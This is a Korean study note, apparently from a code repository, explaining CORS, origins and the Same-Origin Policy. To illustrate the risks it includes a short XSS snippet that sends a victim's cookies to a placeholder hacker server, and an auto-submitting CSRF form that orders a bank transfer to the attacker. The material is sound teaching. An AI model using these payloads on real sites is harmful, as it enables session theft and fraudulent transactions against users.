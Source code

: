 # **교차 출처 리소스 공유**(Cross-Origin Resource Sharing, CORS)

### CORS란?

CORS는 교차 출처 자원 공유의 줄임말로, <u>동일한 출처가 아니라면 리소스 공유에 제한을 두는 것이 웹 시큐리티 정책(SOP)</u>이지만, **허용된 origin의 경우의 한 해서 자원을 공유하는 것을 허용하도록 하는 매커니즘**을 의미한다.

#### Origin(출처)

![uri structure](https://evan-moon.github.io/static/e25190005d12938c253cc72ca06777b1/6af66/uri-structure.png)

출처는 서버의 위치를 찾아가기 위해 필요한 기본적인 것을 합쳐놓은 것으로 `프로토콜`과 `호스트`, `포트 번호`까지 일치해야만 동일한 출처로 인정된다. 포트 번호가 포함된다는 점에서 도메인과 차이가 있다.

#### 동일 출처 정책(Same-Origin Policy, SOP)

SOP는 지난 2011년, [RFC 6454](https://tools.ietf.org/html/rfc6454#page-5)에서 처음 등장한 보안 정책으로 말 그대로 “**같은 출처에서만 리소스를 공유할 수 있다**”라는 규칙을 가진 정책이다.

#### 왜 동일한 출처에서만 자원 공유를 허용하나?

http는 stateless라는 특징을 갖는다. 동일한 사용자의 요청이라도 매번 새로운 요청인 것처럼 처리한다. 같은 개념으로, 서버 입장에서는 브라우저에서 전송되는 http 메시지에 의존하여 실행되기 때문에 요청이 해커가 심은 악성코드의 요청인지, 진짜 사용자의 요청인지 구분할 수 없다.

동일한 출처만 자원 공유를 허용하게되면 다음 보안 이슈를 예방할 수 있다. (sop가 다음 보안 이슈에 대한 공격 루트를 줄여주는 것이지 전부 해결할 수 있는 수단은 아님.)

- **XSS(Corss Site Scripting)** : 공격자가 악의적인 스크립트를 신뢰할 수 있는 웹사이트에 삽입하는 방법의 공격. 

  - Ex) 해커가 웹사이트에 사용자(브라우저)의 쿠키 정보를 빼오는 javascript 코드를 집어넣음

    ```javascript
    <script>window.location = "http://해커의 웹서버주소/?cookie="+document.cookie</script>
    ```

    - 해커가 삽입한 악의적인 스크립트를 클릭하게 되면 해당 브라우저의 쿠키 정보가 해커의 웹 서버로 전송됨
    - 쿠키, 세션 탈취 우려

- **CSRF(Cross-Site Request Forgeries)** : 웹 어플리케이션의 유저가 의도하지 않은 처리를 웹 어플리케이션에서 실행되는 공격

  - Ex) 

    - 사용자가 은행사이트에 로그인한다. (www.mybank.com)
    - 새로운 탭을 눌러서 해커가 만든 웹페이지를 방문한다.(www.해커.com)
    - 해커의 웹페이지는 다음과 같이 코드를 넣어서 사용자의 은행 계좌에서 돈을 해커의 계좌로 입금 시키라는 요청을 보낸다.

    ```javascript
    <form action = "은행주소" method = POST>
      <input name = "받는사람" value = "해커 계좌">
      <input name = "금액" value = 1000>
    </form>
    <script>document.forms[0].submit()</script>
    ```

    - 은행 웹서버는 사용자의 브라우저 (chrome)에 저장되어 있는 사용자 인증 정보때문에 정상적인 사용자의 요청이라고 인식

실제 이 웹이라는 오픈된 환경에서 다른 출처의 자원을 가져와서 사용하는 일은 비일비재한데, 이 정책으로 그런 것을 전부 막는다는 것은 말도 안되는 일이기 때문에 몇가지 **예외적인 경우**를 두었고 그 중 하나가 바로 CORS 정책이다.
